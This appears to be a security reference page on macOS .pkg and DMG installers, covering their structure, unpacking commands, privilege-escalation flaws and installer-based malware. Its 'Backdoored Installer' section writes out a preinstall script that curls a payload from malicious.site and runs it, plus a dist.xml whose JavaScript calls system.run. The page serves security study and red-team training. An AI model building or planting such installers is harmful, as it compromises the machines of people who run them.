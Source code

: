 # macOS Installers Abuse


## Pkg Basic Information

A macOS **installer package** (also known as a `.pkg` file) is a file format used by macOS to **distribute software**. These files are like a **box that contains everything a piece of software** needs to install and run correctly.

The package file itself is an archive that holds a **hierarchy of files and directories that will be installed on the target** computer. It can also include **scripts** to perform tasks before and after the installation, like setting up configuration files or cleaning up old versions of the software.

### Hierarchy

![[../../../images/Pasted Graphic.png|https://www.youtube.com/watch?v=iASSG0_zobQ]]


- **Distribution (xml)**: Customizations (title, welcome text…) and script/installation checks
- **PackageInfo (xml)**: Info, install requirements, install location, paths to scripts to run
- **Bill of materials (bom)**: List of files to install, update or remove with file permissions
- **Payload (CPIO archive gzip compresses)**: Files to install in the `install-location` from PackageInfo
- **Scripts (CPIO archive gzip compressed)**: Pre and post install scripts and more resources extracted to a temp directory for execution.

### Decompress

```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [[https://mothersruin.com/software/SuspiciousPackage/|**Suspicious Package**]].

## DMG Basic Information

DMG files, or Apple Disk Images, are a file format used by Apple's macOS for disk images. A DMG file is essentially a **mountable disk image** (it contains its own filesystem) that contains raw block data typically compressed and sometimes encrypted. When you open a DMG file, macOS **mounts it as if it were a physical disk**, allowing you to access its contents.

> [!CAUTION]
> Note that **`.dmg`** installers support **so many formats** that in the past some of them containing vulnerabilities were abused to obtain **kernel code execution**.

### Hierarchy

![[../../../images/image (225).png|]]


The hierarchy of a DMG file can be different based on the content. However, for application DMGs, it usually follows this structure:

- Top Level: This is the root of the disk image. It often contains the application and possibly a link to the Applications folder.
  - Application (.app): This is the actual application. In macOS, an application is typically a package that contains many individual files and folders that make up the application.
  - Applications Link: This is a shortcut to the Applications folder in macOS. The purpose of this is to make it easy for you to install the application. You can drag the .app file to this shortcut to install the app.

## Privesc via pkg abuse

### Execution from public directories

If a pre or post installation script is for example executing from **`/var/tmp/Installerutil`**, and attacker could control that script so he escalate privileges whenever it's executed. Or another similar example:

![[../../../images/Pasted Graphic 5.png|https://www.youtube.com/watch?v=iASSG0_zobQ]]

*[[https://www.youtube.com/watch?v=kCXhIYtODBg|https://www.youtube.com/watch?v\=kCXhIYtODBg]]*


### AuthorizationExecuteWithPrivileges

This is a [[https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg|public function]] that several installers and updaters will call to **execute something as root**. This function accepts the **path** of the **file** to **execute** as parameter, however, if an attacker could **modify** this file, he will be able to **abuse** its execution with root to **escalate privileges**.

```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
```
For more info check this talk: [[https://www.youtube.com/watch?v=lTOItyjTTkw|https://www.youtube.com/watch?v=lTOItyjTTkw]]

### Execution by mounting

If an installer writes to `/tmp/fixedname/bla/bla`, it's possible to **create a mount** over `/tmp/fixedname` with noowners so you could **modify any file during the installation** to abuse the installation process.

An example of this is **CVE-2021-26089** which managed to **overwrite a periodic script** to get execution as root. For more information take a look to the talk: [[https://www.youtube.com/watch?v=jSYPazD4VcE|**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**]]

## pkg as malware

### Empty Payload

It's possible to just generate a **`.pkg`** file with **pre and post-install scripts** without any real payload apart from the malware inside the scripts.

### JS in Distribution xml

It's possible to add **`<script>`** tags in the **distribution xml** file of the package and that code will get executed and it can **execute commands** using **`system.run`**:

![[../../../images/image (1043).png|]]


### Backdoored Installer

Malicious installer using a script and JS code inside dist.xml

```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
    <!--
title: Malicious Installer
-->

Malicious Installer
    
    <script>
        <![CDATA[
        function installationCheck() {
            if (system.isSandboxed()) {
                my.result.title = "Cannot install in a sandbox.";
                my.result.message = "Please run this installer outside of a sandbox.";
                return false;
            }
            return true;
        }
        function volumeCheck() {
            return true;
        }
        function preflight() {
            system.run("/path/to/preinstall");
        }
        function postflight() {
            system.run("/path/to/postinstall");
        }
        ]]>
    </script>
    <choices-outline>
        <line choice="default">
            
        </line>
    </choices-outline>
    <choice id="myapp" title="MyApp">
        
    </choice>
    \#myapp.pkg
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
```
## References

- [[https://www.youtube.com/watch?v=iASSG0_zobQ|**DEF CON 27 - Unpacking Pkgs A Look Inside Macos Installer Packages And Common Security Flaws**]]
- [[https://www.youtube.com/watch?v=Eow5uNHtmIg|**OBTS v4.0: "The Wild World of macOS Installers" - Tony Lambert**]]
- [[https://www.youtube.com/watch?v=kCXhIYtODBg|**DEF CON 27 - Unpacking Pkgs A Look Inside MacOS Installer Packages**]]
- [[https://redteamrecipe.com/macos-red-teaming?utm_source=pocket_shared#heading-exploiting-installer-packages|https://redteamrecipe.com/macos-red-teaming?utm_source=pocket_shared#heading-exploiting-installer-packages]]



